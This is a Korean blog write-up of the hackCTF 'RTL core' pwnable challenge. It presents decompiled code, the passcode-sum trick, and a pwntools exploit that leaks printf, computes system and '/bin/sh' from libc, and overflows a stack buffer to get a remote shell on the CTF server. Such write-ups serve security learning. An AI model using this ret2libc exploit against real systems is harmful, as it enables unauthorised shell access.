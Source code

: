 ```yaml
---
layout: post
title:  "[hackCTF]RTL core"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 16번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-1Ch]

  setvbuf(_ bss_start, 0, 2, 0);
  puts(&::s);
  printf("Passcode: ");
  gets(&s);
  if ( check_passcode((int)&s) == hashcode ) // hashcode = 0x0C0D9B0A7
  {
    puts(&byte_8048840);
    core();
  }
  else
  {
    puts(&byte_8048881); // "실패!" 출력
  }
  return 0;
}
```

## ida - core
```c
ssize_t core()
{
  int buf; // [esp+Ah] [ebp-3Eh]
  int v2; // [esp+Eh] [ebp-3Ah]
  __ int16 v3; // [esp+12h] [ebp-36h]
  int v4; // [esp+38h] [ebp-10h]
  void * v5; // [esp+3Ch] [ebp-Ch]

  buf = 0;
  v2 = 0;
  v4 = 0;
  memset(
    (void * )((unsigned int)&v3 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char * )&v2 - ((unsigned int)&v3 & 0xFFFFFFFC) + 46) & 0xFFFFFFFC) >> 2));
  v5 = dlsym((void *)0xFFFFFFFF, "printf"); // printf의 주소를 v5에 저장한다
  printf(&format, v5);
  return read(0, &buf, 0x64u); // 취약점!
}
```

## ida - check_passcode
```c
int __cdecl check_passcode(int a1)
{
  int v2; // [esp+8h] [ebp-8h]
  signed int i; // [esp+Ch] [ebp-4h]

  v2 = 0;
  for ( i = 0; i <= 4; ++i )
    v2 += * (_ DWORD * )(4 * i + a1);
  return v2;
}
```

check_passcode 함수의 결과가 hashcode와 동일했을 때 core 함수가 실행된다. 우선 check_passcode 함수를 분석해서 hashcode와 일치하는 값을 만들자.<br><br><br>
check_passcode 함수에서 a1은 문자열의 주소 값이다. v2는 a1의 4byte int 값, a1+4의 int값 ... a1+16의 int값을 더한 값이 된다. 그럼 hashcode int 값을 5개의 숫자의 값을 더하면 나올 수 있도록 5개의 int 값을 만들자. 5개의 int 값을 문자열로 패킹해서 payload(밑의 exploit.py에선 passcode)로 이어붙이자.<br><br><br>
![1601](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/1601.JPG?raw=true)<br>
core 함수를 보면 알 수 있듯이 passcode를 정확히 입력하면 printf의 주소를 출력한다. ASLR이 적용되어 있으므로 printf와 다른 값들의 offset을 구해 RTL기법의 payload를 작성하자. libc를 제공하므로 printf, system, "/bin/sh"의 offset을 구할 수 있다.


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3015)
libc = ELF('./libc.so.6')

printf_offset = libc.symbols['printf']
system_offset = libc.symbols['system']
binsh_offset = list(libc.search('/bin/sh'))[0]

passcode = ""

# passcode

for i in range(4) :
        passcode += p32(0x2691f021)
passcode += p32(0x2691f023)

p.recvuntil("Passcode: ")

p.sendline(passcode)

# payload

p.recvuntil("0x")

printf_addr = int(p.recv(8), 16)

system = printf_addr + (system_offset - printf_offset)

binsh = printf_addr + (binsh_offset - printf_offset)

payload = "A"*(0x3E+0x4) + p32(system) + "AAAA" + p32(binsh)

p.send(payload)

p.interactive()
```

## 결과
![1602](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/1602.JPG?raw=true)
